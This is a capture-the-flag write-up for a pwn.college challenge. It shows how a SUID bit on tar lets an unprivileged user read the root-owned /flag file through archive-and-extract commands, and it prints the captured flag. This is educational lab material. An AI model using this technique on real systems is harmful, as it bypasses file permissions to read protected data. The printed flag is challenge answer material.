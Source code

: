 # Challenge Name: tar
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/tar`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/tar
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/tar
```

-The `s` in `-rws` indicates it's a SUID binary.
-`tar` runs with **root privileges**.

## 🚀 Exploitation

The `tar` command (short for "tape archive") is used to create, extract, and manage archives, usually with a .tar, .tar.gz, or .tar.bz2 extension.

But along -c(create archieve) , -x(extract archieve) , one option -O can be usedto output the content to stdout instead of disk.

With this method we can easily reveal the flag, Let's se how? :


```bash
cd /
tar -cf myflag.tar flag
tar -xf myflag.tar flag -O
```

With the help of -O , now the content of flag is in stdout and will be printed on terminal.

Output:
```
pwn.college{I4RQuEF2wMGOlHLlE24SUf4hf91.dJjNxwSM0IzMyEzW}
```

      
